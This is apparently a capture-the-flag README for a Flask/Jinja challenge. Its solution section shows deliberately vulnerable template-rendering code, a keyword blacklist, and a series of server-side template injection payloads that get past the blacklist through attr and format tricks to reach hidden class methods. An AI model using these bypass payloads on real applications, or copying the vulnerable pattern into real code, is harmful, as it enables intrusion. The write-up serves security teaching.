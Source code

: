 # Teeange Mutant Jinja Turtles 2

Oh shut, it looks like that I forgot to secure my IP app before! Good news is that it is now secure and ready to be shown to the world. Nobody can break my sanitization...

## Flag

```
temp{temp_flag}
```

## How to run

To set up this challenge locally you need to have python 3.6 and:

1. Install requirements:
```
pip install -r requirements
```
2. Run app:
```
cd challenge && gunicorn -c gunicorn.py app
```

## Solution

1.  Looking at the source code of main page you can find `/debug_it` endpoint.
 
![Html source code](images/1.png)

2. When you try to access it you may see `Wrong method` information. To check how to access this endpoint, simply use `OPTIONS` HTTP request type.


![OPTIONS response](images/2.png)

3. After using `DEBUG` request type, you get the access to a part of source code of application. Part that interests us is here:
```python
ip_unsanitized = request.args.get('ip') or None
if ip_unsanitized is None:
    return abort(400, 'No ip parameter')
else:
    ip = sanitize(ip_unsanitized)
    location = get_location_for(ip)
    try:
        template = render_template_string(render_template('results.html', ip=ip, location=location))
        return template
    except Exception as e:
        logging.error(e)
        abort(500)
```
We can see here that saintized IP is passed directly to the HTML

4. We need to bypass saintization:
```python
blacklist = ["__class__", "__subclasses__", "request[request.", "__", "|join", '[', ']' ]
for bad in blacklist:
    if bad in string:
        abort(400, f"No hacking here - { bad } is not allowed") 
```

5. We will use Jinja templates. Usefull Jinja/python code:
   
- `__class__` - access working class
- `__mro__` - access classe's parents
- `__subclasses__` - access classe's sublclasses

6. Ideally we will use something like:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[483].get__flag()}}
```

We access Request class, then Object and get it's all subclasses (our Flag class derives from it). If we look into it using `__dict__` we can see `get__flag()` method. Just use it 

> 483 is just temporary value - it may vary depending on running python version

Unfortunately we need to bypass sanitization

### Bypassing

- We can use `format` and `attr`:
```jinja
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```
This string bypasses `__`, `__class__` and `|join`. It uses syntax similar to URL query params

- Now we need to bypass `[` `]` sanitization and access `__mro__[11]` (we cannot use direct array access):
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{l}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s
```
We can just access 11th created element `l`

- Now is the time for `__subclasses__`:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))())}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s
```
We use similar method as before (a lot of query params and formats)

- If we have our subclasses we need to access its 500th element (or something around it). We do not want to create over 500 variables so we will use `pop()`:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))()).pop(500)}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s
```

- When we have our `Flag` class we want to look into it's methods - we use `__dict__`:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))()).pop(597)|attr(request.args.dict|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s&dict=%s%sdict%s%s
```

![dict response](images/5.png)

- We can see `get_____flag()` method:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))()).pop(597)|attr(request.args.getflag|format(request.args.a,request.args.a,request.args.a,request.args.a,request.args.a))()}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s&getflag=get%s%s%s%s%sflag
```


![Result](images/4.png)